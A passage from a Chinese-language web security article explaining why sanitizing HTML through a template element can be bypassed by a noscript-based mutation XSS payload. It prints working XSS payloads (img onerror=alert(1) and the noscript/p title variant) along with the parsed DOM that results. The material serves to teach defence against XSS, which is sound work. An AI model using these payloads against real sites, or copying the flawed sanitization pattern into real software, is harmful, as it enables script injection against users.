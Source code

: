 ```
// 创建一个template元素
template = document.createElement('template');
// 将同样的payload插入template中
template.innerHTML = "&lt;img src=x onerror=alert(1) /&gt;"
```

没有alert弹窗产生。而且，我们能从`template`中拿到解析后的HTML，并进行sanitize。

```
// 查看解析后的HTML，结果为 &lt;img src="x" onerror="alert(1)"&gt;
template.content.children[0]
// sanitize HTML，删除可能导致XSS的危险属性 onerror
template.content.children[0].removeAttribute("onerror");
// 将安全的HTML插入最终需要渲染的DOM节点上
div.innerHTML = template.content.children[0];
```

[![](https://p5.ssl.qhimg.com/t0111f3936e3e80a062.png)](https://p5.ssl.qhimg.com/t0111f3936e3e80a062.png)

这样，我们就实现了通过浏览器的Parser来解析HTML，然后对解析后的HTML进行sanitize，以保证最终输出安全的HTML。而且，在解析过程中，浏览器也不会执行嵌入的JavaScript脚本。

看起来，似乎大功告成了？！

我们尝试用同样的方法来解析文章开头提供的XSS payload。

```
// 插入payload
template.innerHTML = '&lt;noscript&gt;&lt;p title="&lt;/noscript&gt;&lt;img src=x onerror=alert(1)&gt;"&gt;'
// 查看解析后的HTML
template.content.children[0]
// 返回的结果如下
&lt;noscript&gt;
  &lt;p title="&lt;/noscript&gt;&lt;img src=x onerror=alert(1)"&gt;&lt;/p&gt;
&lt;/noscript&gt;
```

[![](https://p1.ssl.qhimg.com/t01f747d7c19533a0c2.png)](https://p1.ssl.qhimg.com/t01f747d7c19533a0c2.png)

解析后的HTML看起来非常安全，能够执行XSS的`img`标签被解析成了`p`标签的`title`属性的值，以字符串的形式存在。

接下来，我们将这段”安全”的HTML插入到`div`中

```
div.innerHTML = template.innerHTML;
```

[![](https://p0.ssl.qhimg.com/t013cbcc49ccec944fb.png)](https://p0.ssl.qhimg.com/t013cbcc49ccec944fb.png)

竟然，弹窗了？！我们打印一下插入payload的`div`，看看究竟是个什么鬼？

```
div
// 返回的结果如下
&lt;div&gt;
  &lt;noscript&gt;&lt;p title="&lt;/noscript&gt;
    &lt;img src="x" onerror="alert(1)"&gt;
  ""&gt;"
    &lt;p&gt;&lt;/p&gt;
&lt;/div&gt;

```
